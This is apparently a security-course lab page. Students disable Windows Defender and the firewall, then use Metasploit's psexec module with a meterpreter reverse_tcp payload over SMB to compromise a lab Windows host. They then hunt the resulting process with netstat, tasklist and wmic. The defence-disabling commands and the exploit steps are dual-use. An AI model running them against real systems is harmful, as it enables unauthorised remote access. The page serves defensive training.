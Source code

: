 # Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a **Kali** instance by clicking the **Kali** logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say 

<pre>A general error occurred that is not covered by a more specific error code.</pre> 


That is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Next, lets ensure the firewall is disabled.

<pre> netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

<pre>ipconfig</pre>

Please note your Windows IP address.

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the **Metasploit** handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!

When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the **RHOST IP** for the Windows system by using the following command:

<pre>set RHOST 10.10.1.209</pre>

![](attachments/windowscli_sets.png)

**Remember, your IP will be different!**

Next, we need to set the **SMB** username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

Remember, your password will be different!  I hope!!!

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Go ahead an open an instance of **Windows PowerShell**.

![](attachments/OpeningPowershell.png)

Run the following command:

<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run **"-f"** with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

Now we see our last connection with the **port 4444**.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

We will start with tasklist  

<pre>tasklist /m /fi "pid eq [PID]"</pre>

**YOUR PID WILL BE DIFFERENT!**

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

<pre>wmic process where processid=[PID] get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

<pre>wmic process get name,parentprocessid,processid | select-string [PID]</pre>

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process

1. We found its parent process ID.  

2. We did a search on that process ID.  

3. As you can see above, it was launched by the cmd.exe process.  

4. Note that the search we just did may turn up some other things launched by the command line as well.


***
***Continuing on to the next Lab?***

[Click here to get back to the Navigation Menu](/IntroClassFiles/navigation.md)

***Finished with the Labs?***


Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---







 

